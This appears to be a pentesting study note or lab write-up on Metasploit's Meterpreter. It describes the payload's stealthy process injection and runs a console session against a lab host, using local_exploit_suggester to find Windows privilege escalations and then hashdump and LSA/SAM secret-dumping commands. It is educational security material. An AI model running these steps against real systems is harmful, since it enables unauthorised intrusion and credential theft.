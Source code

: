 # Meterpreter

Simply, it is a multi-faceted extensible payload. As powerful as it is, meterpreter runs on the victim's memory in order to facilitate our task on exploiting  and accessing the target, from getting us a shell, transfer files, to doing screenshots and opening the camera of our victim. It supports staged and stageless payloads which makes it suitable for whatever we want to achieve.

Not only it gives as a shell on the victim's machine but it provides much more functionalities with great stealthiness since <mark style="color:purple;">**it doesn't create another other processes because it injects itself in a compromised process**</mark> and can migrate from one process to another + the AES encryption of the communications which assures integrity of the data in question.

For a more important read check [this](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/) and [this](https://www.blackhillsinfosec.com/modifying-metasploit-x64-template-for-av-evasion/).

## Attack structure

* The target executes the initial stager. This is usually a bind, reverse, <mark style="color:red;">findtag</mark>, <mark style="color:red;">passivex</mark>, etc.
* The stager loads the DLL prefixed with Reflective. The Reflective stub handles the loading/injection of the DLL.
* The Meterpreter core initializes, establishes an AES-encrypted link over the socket, and sends a GET. Metasploit receives this GET and configures the client.
* Lastly, Meterpreter loads extensions. It will always load <mark style="color:red;">**stdapi**</mark> and load <mark style="color:red;">**priv**</mark> if the module gives administrative rights. All of these extensions are loaded over AES encryption.

## Facts and considerations

From a real life perspective, meterpreter and metasploit in general will leave traces behind, like a file or a stager that can't erase, or something of that sort. That makes it a liability and something that would ruin a pentest. Sys admins will notice that and we will definitely get caught.

## Important enumeration module

```bash
msf6 exploit(...) > search local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > exploit/windows/local/ms15_051_client_copy_images
msf6 post(multi/recon/local_exploit_suggester) > set whatever necessary
msf6 post(multi/recon/local_exploit_suggester) > run
meterpreter > hashdump
meterpreter > lsa_dump_sam
meterpreter > lsa_dump_secrets

```

{% hint style="info" %}
<mark style="color:blue;">**The Local Security Authority (LSA)**</mark> in Windows manages authentication and security policies. Adversaries exploit LSA by modifying registry paths to include malicious binaries, which are executed with SYSTEM privileges during authentication package loading.

<mark style="color:blue;">**SAM**</mark> in Windows stores locally cached credentials (referred to as SAM secrets).
{% endhint %}

## Exploit

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Checking up on the website with default creds we get a version number:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Shell

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Hash Dumping

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* 1st field: username&#x20;
* 2nd field: Relative Identification (RID)
* 3rd field: LM hash&#x20;
* 4th field: NTLM hash
